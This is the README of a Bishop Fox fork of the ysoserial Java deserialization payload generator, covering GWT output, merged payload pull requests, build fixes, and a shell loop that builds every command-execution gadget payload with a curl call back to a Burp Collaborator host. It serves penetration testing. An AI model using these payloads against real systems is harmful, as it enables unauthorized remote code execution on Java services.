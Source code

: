 # ysoserial - Bishop Fox fork

This is a fork of [ysoserial](https://github.com/frohoff/ysoserial) that incorporates some additional features. Refer to the original project for most of the documentation.

## GWT serialization output

The original motivation for this fork was to add support for the nonstandard serialization format used by Google Web Toolkit (GWT). To output in GWT format, add the `--gwt` option, with a field name, e.g. `--gwt default`, `--gwt bishopfox`, etc. It's not necessary to pick a valid field name, but GWT will get a little farther in its deserialization logic if the field name is valid for the type of object the payload is being injected into, and this might be beneficial in some cases.

You can try out the GWT serialization output feature using [the example vulnerable GWT web app](https://github.com/BishopFox/VulnerableGWTApp) discussed in [the Bishop Fox blog post "GWT: An Eight-Year-Old Unpatched Java Deserialization Vulnerability"](https://bishopfox.com/blog/gwt-unpatched-unauthenticated-java-deserialization-vulnerability)

## Merged back-catalogue pull requests

This fork also includes content from 11 unmerged pull requests in the mainline project that seemed useful:

* [PR#200 - Jython2 payload](https://github.com/frohoff/ysoserial/pull/200) (renamed Jython3 to avoid conflict with PR#153)
* [PR#192 - MozillaRhino3 payload](https://github.com/frohoff/ysoserial/pull/192)
* Partial implementation of [PR#189 - Improved command-line handling](https://github.com/frohoff/ysoserial/pull/189) (adds the argument-handling logic, but not the -s and -p options because they seemed potentially fragile)
* [PR#184 - Improved C3P0 payload](https://github.com/frohoff/ysoserial/pull/184) (implemented as a new "C3P02" payload so the original version can still be easily used)
* [PR#177 - WildFly1 payload](https://github.com/frohoff/ysoserial/pull/177)
* [PR#172 - TLS support for RMIRegistryExploit utility](https://github.com/frohoff/ysoserial/pull/172)
* [PR#167 - ROME2 payload](https://github.com/frohoff/ysoserial/pull/167)
* [PR#162 - RMIRegistryExploit utility should only call createMemoitizedProxy if the payload is not already a Remote instance](https://github.com/frohoff/ysoserial/pull/162)
* [PR#159 - Jdk7u21variant payload](https://github.com/frohoff/ysoserial/pull/159)
* [PR#153 - Jython2 and JythonZeroFile payloads](https://github.com/frohoff/ysoserial/pull/153)
* [PR#134 - Improved help message output](https://github.com/frohoff/ysoserial/pull/134) (modified the default width from 210 to 80 for better compatibility)

# Usage

You can try skipping the build steps below and using the precompiled JAR file available in the releases list for this repo.

Otherwise, compile the code using the same steps as for the main project (version 11 JRE, etc.):

```
mvn clean package -DskipTests
```

You may receive errors similar to the following, depending on your Linux distribution, how long you've had Maven installed on it, etc.:

```
[WARNING] The POM for javax.interceptor:javax.interceptor-api:jar:3.1 is missing, no dependency information available
...omitted for brevity...
[ERROR] Failed to execute goal on project ysoserial: Could not resolve dependencies for project ysoserial:ysoserial:jar:0.0.6-SNAPSHOT: The following artifacts could not be resolved: javax.interceptor:javax.interceptor-api:jar:3.1 (absent): javax.interceptor:javax.interceptor-api:jar:3.1 was not found in
https://repo.jenkins-ci.org/public/
during a previous attempt. This failure was cached in the local repository and resolution is not reattempted until the update interval of jenkins has elapsed or updates are forced -> [Help 1]
```

If so, unpack the file `lib/javax.interceptor-api-3.1.tar.gz` into your user-level Maven directory (usually `~/.m2`). Doing so should result in the creation of a subdirectory named `repository/javax/interceptor/javax.interceptor-api` containing at least four files. The root cause is that the 3.1 library was built, released, and many projects added it as a depenedency, then [the maintainers decided it was a mistake and deleted the library](https://github.com/jakartaee/interceptors/issues/4). This repo may be updated at a later date to use a different version of the library so that this step is not necessary.

Once compiled, using this fork of `ysoserial` is the same as the standard version unless you want to output in GWT mode.

```
Usage: java -jar ysoserial-[version]-all.jar [options] <payload> '<command>'
  Options:
    -h,--help                  Print usage
    -G,--gwt <field name>      Output in Google Web Toolkit (GWT) serialization format:
      ex. --gwt default
```

# Quickly trying all command execution payloads

Trying `URLDNS` first with a URL based on your Burp Suite Collaborator hostname is always a good idea, because most systems can resolve public DNS names. If you've confirmed that `URLDNS` works, but want to attempt actual code execution, this section provides an option for building all of the OS command execution payloads, which you can then copy/paste into Burp Repeater or similar.

These steps generate all possible OS command execution payloads for testing in conjunction with a Burp Suite Collaborator server in a way that will let you know which (if any) succeeded. The way this is accomplished is by executing a command that makes and HTTP request to your Collaborator server for a URI named after the payload. So if you see entries in your Collaborator console for `/CommonsBeanutils1`, you know that the `CommonsBeanutils1` gadget chain works against the target.

This example uses `curl`, which will of course fail if a system is vulnerable but does not have `curl` installed. You could modify the steps to try the same approach using `wget`, `nc`, etc. If none of those work, you could use `ping -c3`, `nslookup`, or `host`, but those will only let you know that a command succeeded, not which payload was responsible. 

First create a file named `command_execution_payloads.txt` containing the following lines:

```
BeanShell1
C3P0
C3P02
Click1
Clojure
CommonsBeanutils1
CommonsCollections1
CommonsCollections2
CommonsCollections3
CommonsCollections4
CommonsCollections5
CommonsCollections6
CommonsCollections7
Groovy1
Hibernate1
Hibernate2
JavassistWeld1
JBossInterceptors1
Jdk7u21
Jdk7u21variant
JSON1
Jython2
Jython3
JythonZeroFile
MozillaRhino1
MozillaRhino2
MozillaRhino3
ROME
ROME2
Spring1
Spring2
Vaadin1
```

Then execute the following commands, substituting the Collaborator DNS name and your `ysoserial` JAR path (e.g. `target/ysoserial-0.0.6-SNAPSHOT-all.jar`) where indicated. 

```
export COLLABORATOR="<your Collaborator DNS name here>"
export YSOSERIAL="<your ysoserial JAR path here>"
export FIELDNAME="bishopfox"
mkdir "payloads-${COLLABORATOR}-curl"

while read pn; do \
   java -jar "${YSOSERIAL}" \
   --gwt "${FIELDNAME}" \
   "${pn}" \
   "curl http://${COLLABORATOR}/${pn}" \
   | base64 -w0 | sed 's/+/\$/g' | sed 's./._.g' \
   > "payloads-${COLLABORATOR}/${pn}.bin.b64"; \
   done<command_execution_payloads.txt
```

You can then copy/paste the payloads into Burp Repeater or similar.
